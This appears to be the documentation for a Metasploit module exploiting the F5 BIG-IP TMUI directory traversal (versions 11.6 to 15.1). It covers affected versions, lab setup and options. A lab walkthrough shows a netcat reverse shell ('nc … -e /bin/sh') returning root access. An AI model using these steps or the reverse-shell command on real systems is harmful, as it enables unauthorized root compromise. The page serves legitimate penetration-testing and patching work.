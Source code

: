 ## Vulnerable Application

### Description

This module exploits a directory traversal in F5's BIG-IP Traffic
Management User Interface (TMUI) to upload a shell script and execute
it as the root user.

Versions 11.6.1-11.6.5, 12.1.0-12.1.5, 13.1.0-13.1.3, 14.1.0-14.1.2,
15.0.0, and 15.1.0 are known to be vulnerable. Fixes were introduced
in 11.6.5.2, 12.1.5.2, 13.1.3.4, 14.1.2.6, and 15.1.0.4.

Tested on the VMware OVA release of 14.1.2.

### Setup

Download
[BIGIP-14.1.2-0.0.37.ALL-scsi.ova](https://downloads.f5.com/esd/serveDownload.jsp?path=/big-ip/big-ip_v14.x/14.1.2/english/virtual-edition/&sw=BIG-IP&pro=big-ip_v14.x&ver=14.1.2&container=Virtual-Edition&file=BIGIP-14.1.2-0.0.37.ALL-scsi.ova)
and import it into your desired virtualization software.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### WritableDir

Set this to a writable directory in which files will be dropped.
Defaults to `/tmp`.

## Scenarios

### F5 BIG-IP 14.1.2 in VMware Fusion

```
msf5 > use exploit/linux/http/f5_bigip_tmui_rce
[*] Using configured payload cmd/unix/reverse_netcat_gaping
msf5 exploit(linux/http/f5_bigip_tmui_rce) > options

Module options (exploit/linux/http/f5_bigip_tmui_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_netcat_gaping):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf5 exploit(linux/http/f5_bigip_tmui_rce) > set rhosts 172.16.163.145
rhosts => 172.16.163.145
msf5 exploit(linux/http/f5_bigip_tmui_rce) > set lhost 172.16.163.1
lhost => 172.16.163.1
msf5 exploit(linux/http/f5_bigip_tmui_rce) > run

[+] nc 172.16.163.1 4444 -e /bin/sh
[*] Started reverse TCP handler on 172.16.163.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target is running BIG-IP 14.1.2.
[*] Creating alias list=bash
[+] Successfully created alias list=bash
[*] Executing Unix Command for cmd/unix/reverse_netcat_gaping
[*] Executing command: nc 172.16.163.1 4444 -e /bin/sh
[*] Uploading /tmp/VaU9ShHKR9vSa4U2q87Tio
[+] Successfully uploaded /tmp/VaU9ShHKR9vSa4U2q87Tio
[*] Executing /tmp/VaU9ShHKR9vSa4U2q87Tio
[*] Command shell session 1 opened (172.16.163.1:4444 -> 172.16.163.145:39434) at 2020-07-07 12:11:02 -0500
[+] Deleted /tmp/VaU9ShHKR9vSa4U2q87Tio
[*] Deleting alias list=bash
[+] Successfully deleted alias list=bash

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
uname -a
Linux localhost.localdomain 3.10.0-514.26.2.el7.ve.x86_64 #1 SMP Wed Aug 7 08:16:38 PDT 2019 x86_64 x86_64 x86_64 GNU/Linux
```
